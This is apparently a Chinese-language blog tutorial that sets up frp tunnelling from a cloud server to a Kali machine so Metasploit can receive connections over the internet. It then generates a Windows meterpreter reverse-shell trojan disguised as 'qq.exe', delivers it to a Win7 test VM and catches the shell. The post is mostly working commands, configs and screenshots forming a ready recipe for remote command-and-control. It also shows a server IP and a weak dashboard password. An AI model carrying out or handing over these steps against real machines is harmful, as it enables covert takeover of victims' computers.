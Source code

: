 ```yaml
---
title: frp 搭建公网 Metasploit
date: 2022-4-18 20:18:36
tags: [Trojan horse,Linux,Kali,Metasploit,frp]
categories: 
 - 木马-Trojan horse
cover: https://res.cloudinary.com/sycamore/image/upload/v1682442126/Typera/2023/04/87d91c5d20cc130aa72fe99c74a9e8c2.png
---
```


## 准备
- **frps** 部署机。
	- 要求：拥有 **公网IP** （例如 **VPS**、云服务器等等）
	- 本文选用 **Ubuntu 18.04.6** 云服务器
- **frpc** 客户机。
	- 要求：能访问互联网
	- 本文选用 **Kali Linux 2022** 虚拟机
- **frp** 的 **Github** 项目地址：[fatedier/frp](https://github.com/fatedier/frp)
## frps（云服务器）
### 下载安装
[**Github** 项目](https://github.com/fatedier/frp) 上找到最新的 [releases](https://github.com/fatedier/frp/releases) ：
![image-20230426011312770](https://res.cloudinary.com/sycamore/image/upload/v1682442796/Typera/2023/04/65c0edabf7c4cf7b431c9f10ff94bc05.png)

1. 在 **云服务器** 终端上下载：`wget https://github.com/fatedier/frp/releases/download/v0.41.0/frp_0.41.0_linux_amd64.tar.gz`
![image-20230426011322302](https://res.cloudinary.com/sycamore/image/upload/v1682442806/Typera/2023/04/d8b546285137f60d42fef4a27a06d821.png)
2. **解压缩** 下载的文件：`tar -zxvf frp_0.41.0_linux_amd64.tar.gz`
![image-20230426011327257](https://res.cloudinary.com/sycamore/image/upload/v1682442811/Typera/2023/04/4063a698f14734b0fb54a92974122ba5.png)
3. **进入** 解压缩的文件夹：`cd frp_0.41.0_linux_amd64/`
4. 因为配置的是 **frps** ，可以 **删除** 文件夹内的 **frpc** 相关文件，防止后续修改出错：**`rm -rf frpc*`**
![image-20230426011332064](https://res.cloudinary.com/sycamore/image/upload/v1682442816/Typera/2023/04/f776553aeca109b5eef6a7e0d3d6bacd.png)
### 编写 frps 配置文件
`vim frps.ini`
内容如下：
（不想要**监控页面**的话，删除对应配置所在 **行** 即可）
```
[common]
bind_port = 7777          # frps和frpc的通讯端口
dashboard_port = 9999     # web监控页面的端口
dashboard_user = Sycamore # 登录监控页面的用户名
dashboard_pwd = 123456    # 登录监控页面的密码
```
如图所示：
![image-20230426011338410](https://res.cloudinary.com/sycamore/image/upload/v1682442822/Typera/2023/04/02f8cca9459920e2f031c95fec4c172e.png)
（需要 **云服务器** 打开 **对应端口**：7777、9999)

### 运行
相关命令 **基本上** 应当在 **frp_0.41.0_linux_amd64 文件夹** 下执行 ~
- 命令行输入：`./frps -c frps.ini`
	- **[注意]**：关闭命令行窗口，或是停止执行该命令，就会 **退出**
- 后台运行：`nohup ./frps -c frps.ini >/dev/null 2>&1 &`
	- 因为通常不会 **关闭云服务器**，所以 **后台运行** 就足够了；
	- 当然也可以 **开启自启动**，详情见 **frpc** 的内容，对应命令改个符号就行 ~

## frpc（Kali 虚拟机）
![image-20230426011342973](https://res.cloudinary.com/sycamore/image/upload/v1682442827/Typera/2023/04/692976286e5ddec8cd744326a1c3a54d.png)
### 下载安装
[**Github** 项目](https://github.com/fatedier/frp) 上找到最新的 [releases](https://github.com/fatedier/frp/releases) 

步骤与 **frps** 的几乎**相同**，**区别** 是：
- 对象变成了 **Kali 虚拟机**，而不是 云服务器
- 以及最后一步 **删除的是 frps**：
	4. 因为配置的是 **frpc** ，可以 **删除** 文件夹内的 **frps** 相关文件，防止后续修改出错：**`rm -rf frps*`**

### 编写 frpc 配置文件
作为一款 **内网穿透** 工具，**frp** 穿透了内网之后，还需要使用 **其他手段**（**ssh**）
和外网建立交互，所以 **配置文件** 中会存在 **[ssh]** 配置。

`vim frpc.ini`
内容如下：
```
[common]
server_addr = 106.15.52.194
server_port = 7777

[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 22
remote_port = 6666
use_compression = true
```
相关 **解释** 如图：
![image-20230426011350366](https://res.cloudinary.com/sycamore/image/upload/v1682442834/Typera/2023/04/2144e375ff1aca162bb41868d050259f.png)

### 运行
相关命令 **基本上** 应当在 **frp_0.41.0_linux_amd64 文件夹** 下执行 ~
- 命令行输入：`./frpc -c frpc.ini`
	- **[注意]**：关闭命令行窗口，或是停止执行该命令，就会 **退出**
- 开机自启动：
	- 服务目录 **新建并编辑** 文件：`vim /lib/systemd/system/frp.service`
	- 填入以下内容：
		```
		[Unit]
		Description=Frp Client Service
		After=network.target remote-fs.target nss-lookup.target
		Wants=network.target
		
		[Service]
		Type=simple
		ExecStart=/root/frp/frpc -c /root/frp/frpc.ini
		Restart=always
		RestartSec=20s
		
		[Install]
		WantedBy=multi-user.target
		```
	- 启动 **frpc** 服务：`systemctl start frp`
	（最后的 `frp` 名称取决于上一步新建的文件名 `frp.service`）
	- 打开 **frpc** 服务自启动 `systemctl enable frp`
		**[注意]：**
		- 如果要重启应用：`systemctl restart frp`
		- 如果要停止应用：`systemctl stop frp`
		- 如果要查看 **frpc** 的日志：`systemctl status frp`
		- 权限不够，记得加 `sudo`

**服务文件** 重要内容注释 如下图：
![image-20230426011356634](https://res.cloudinary.com/sycamore/image/upload/v1682442841/Typera/2023/04/6e79855b87a38703bd5b740419dc6e65.png)

## SSH 连接测试
- 命令行 `ssh root@x.x.x.x -p 6666`
（**root** 用户登录到 **云服务器x.x.x.x** 的 **6666** 端口）
![](https://res.cloudinary.com/sycamore/image/upload/v1682442846/Typera/2023/04/52501488b9125c9518e2190783a8fcf4.png)
- Xshell 创建新会话，具体内容如下：
![image-20230426011410382](https://res.cloudinary.com/sycamore/image/upload/v1682442854/Typera/2023/04/891e33c279efacbf48adee134034f971.png)![image-20230426011417120](https://res.cloudinary.com/sycamore/image/upload/v1682442861/Typera/2023/04/fe85e7d6d6e0e5955c77ff87a4ea5abe.png)
<br>
**Xshell  连接成功**：
![image-20230426011424294](https://res.cloudinary.com/sycamore/image/upload/v1682442869/Typera/2023/04/7eed7e40069de144ddcfb74725077325.png)
## msf 渗透攻击测试
双击打开 刚刚建立的 **Xshell 新会话**（ frp ）.
### frpc 添加新配置
输入命令：`vim frpc.ini`，编辑 **frpc** 配制文件，
在文件末尾 **添加**：
```
[msf]
type = tcp
local_ip = 127.0.0.1
local_port = 4444
remote_port = 2333 
```
配置内容的 **含义** 与 **[ssh]** 类似，解释如图：
![image-20230426011431000](https://res.cloudinary.com/sycamore/image/upload/v1682442874/Typera/2023/04/75402a4aa7e5b6970ffb51313c0a847f.png)

### msf 生成木马
与连接 **本地的 shell** 生成木马不同，
因为我们要使用 **frp 穿透内网** 连接的 shell ，去 **监听木马反弹**的 shell，
所以我们 **生成木马** 时，设置的 LHOST、LPORT 应当是 **云服务器** 的对应数据。
（直接用内网测试的时候，LHOST、LPORT 填的是 **本地虚拟机** 的相关数据）

用 **msf** 生成 **windows** 系统的 **反向shell** 木马：
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=2333 -f exe > qq.exe`
![image-20230426011437323](https://res.cloudinary.com/sycamore/image/upload/v1682442881/Typera/2023/04/f72e4363a982738b25b5976722ab8948.png)
成功生成木马文件：**qq.exe**

### msf 监听反弹的 shell
> （确定 frps 、frpc 服务均已在后台运行）
> （事先上传 qq.exe 到测试的靶机，本文用 	Win7_x64 虚拟机替代）

> 关于**上传**：Kali 虚拟机 开启 **Apache2** 服务，Win7_x64 虚拟机 内网访问下载：
> ![](https://res.cloudinary.com/sycamore/image/upload/v1682442886/Typera/2023/04/79c8bcdd330dc38041cee9fa333d9bb8.png)

1. `msfconsole`
	- 打开 **msf**
2. `use exploit/multi/handler`
	- 选择使用的 exploit
3. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	- 设置 PAYLOAD （生成木马时使用的）
4. `set LHOST 127.0.0.1`
	- 设置 LHOST 为本地 IP
5. `set LPORT 4444`
	- 设置 LPORT 为转发的本地端口 4444
6. run
	- 开始监听

> （先让 **msf** 开始监听，再双击运行上传的木马文件）

演示如图所示：
- 双击 **运行木马**：
![image-20230426011447735](https://res.cloudinary.com/sycamore/image/upload/v1682442892/Typera/2023/04/553d087d53826c0f6f0bc2edf848b2b0.png)
<br>
- msf **开始监听** & 成功获得 meterpreter **shell**：
![image-20230426011457351](https://res.cloudinary.com/sycamore/image/upload/v1682442902/Typera/2023/04/204ea56873200eb9b2507252955adb2a.png)
